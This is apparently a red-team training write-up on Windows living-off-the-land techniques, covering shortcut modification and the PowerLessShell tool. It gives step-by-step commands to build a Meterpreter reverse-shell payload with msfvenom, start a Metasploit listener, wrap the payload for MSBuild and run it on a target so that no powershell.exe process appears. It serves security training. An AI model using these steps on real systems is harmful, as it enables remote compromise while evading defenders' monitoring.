 ## Living Off the Land: Other Techniques

This section highlights interesting techniques used for initial access or persistence. These methods fall under the "Living Off the Land" umbrella, as they leverage built-in Windows utilities.

---

### Shortcuts

Shortcuts (or symbolic links) refer to files or applications within the OS. When a user clicks a shortcut, the referenced file or app is executed. Red Teams often use shortcut modification for initial access, privilege escalation, or persistence.

**MITRE ATT&CK Reference:**  
- [T1547: Shortcut Modification](https://attack.mitre.org/techniques/T1547/)

**Common targets for shortcut modification:**
- `rundll32.exe`
- `powershell.exe`
- `regsvr32.exe`
- Any executable on disk

**Example:**  
An attacker modifies an Excel shortcut to execute `calc.exe` via `rundll32.exe`. When the victim clicks the Excel icon, Calculator launches instead.

For more details, see [this GitHub repo](https://github.com/your-repo-link).

---

### No PowerShell!

In 2019, Red Canary reported PowerShell as the most-used technique for malicious activity. Organizations now monitor or block `powershell.exe`, so adversaries seek alternatives to run PowerShell code without spawning the process.

#### PowerLessShell

[PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell) is a Python tool that generates code to run on a target without showing a PowerShell process. It abuses the Microsoft Build Engine (MSBuild) to execute remote code.

**Steps:**

1. **Clone PowerLessShell:**
    ```bash
    git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
    ```

2. **Generate a PowerShell payload with msfvenom:**
    ```bash
    msfvenom -p windows/meterpreter/reverse_winhttps LHOST=<AttackBox_IP> LPORT=4443 -f psh-reflection > liv0ff.ps1
    ```

3. **Start Metasploit listener:**
    ```bash
    msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost <AttackBox_IP>; set lport 4443; exploit"
    ```

4. **Convert payload for MSBuild:**
    ```bash
    cd PowerLessShell
    python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
    ```

5. **Transfer `liv0ff.csproj` to the target Windows machine.**  
   (Use SCP or host with `python3 -m http.server 1337` and download via browser.)

6. **Execute with MSBuild on the target:**
    ```cmd
    C:\Users\thm> c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\Users\thm\Desktop\liv0ff.csproj
    ```

After running MSBuild, wait a few seconds for the reverse shell. No `powershell.exe` process will be visible.

---